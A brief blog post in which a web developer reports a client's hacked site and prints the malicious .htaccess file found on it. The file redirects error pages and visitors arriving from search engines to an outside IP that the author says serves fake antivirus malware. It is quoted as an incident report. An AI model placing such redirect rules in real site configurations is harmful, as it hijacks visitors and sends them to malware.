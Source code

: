 ```yaml
---
layout: post
title: ".htaccess hacked"
custom_v2_id: 50
---
```


Today a client called me telling me that its website was unavailable, or more
exactly that the full content of the FTP was displayed instead of its
homepage.

After a little investigation it appears that the .htaccess file had been
modified, here was the content I found :

    
```apache
RewriteEngine On  
ErrorDocument 400 http://217.23.5.232/hitin.php?land=20&affid=20116  
ErrorDocument 401 http://217.23.5.232/hitin.php?land=20&affid=20116  
ErrorDocument 403 http://217.23.5.232/hitin.php?land=20&affid=20116  
ErrorDocument 404 http://217.23.5.232/hitin.php?land=20&affid=20116  
ErrorDocument 500 http://217.23.5.232/hitin.php?land=20&affid=20116  
RewriteCond %{HTTP_REFERER} .*google.* [OR]  
RewriteCond %{HTTP_REFERER} .*ask.* [OR]  
RewriteCond %{HTTP_REFERER} .*yahoo.* [OR]  
RewriteCond %{HTTP_REFERER} .*excite.* [OR]  
RewriteCond %{HTTP_REFERER} .*altavista.* [OR]  
RewriteCond %{HTTP_REFERER} .*msn.* [OR]  
RewriteCond %{HTTP_REFERER} .*netscape.* [OR]  
RewriteCond %{HTTP_REFERER} .*aol.* [OR]  
RewriteCond %{HTTP_REFERER} .*hotbot.* [OR]  
RewriteCond %{HTTP_REFERER} .*goto.* [OR]  
RewriteCond %{HTTP_REFERER} .*infoseek.* [OR]  
RewriteCond %{HTTP_REFERER} .*mamma.* [OR]  
RewriteCond %{HTTP_REFERER} .*alltheweb.* [OR]  
RewriteCond %{HTTP_REFERER} .*lycos.* [OR]  
RewriteCond %{HTTP_REFERER} .*search.* [OR]  
RewriteCond %{HTTP_REFERER} .*metacrawler.* [OR]  
RewriteCond %{HTTP_REFERER} .*bing.* [OR]  
RewriteCond %{HTTP_REFERER} .*dogpile.*  
RewriteRule ^(.*)$ http://217.23.5.232/hitin.php?land=20&affid=20116 [R=301,L]
```

A little search online told me that this IP refer to a malware website
launching a fake Antivirus software installation.

I have no idea how the `.htacces`s got modified, but I changed the FTP password.

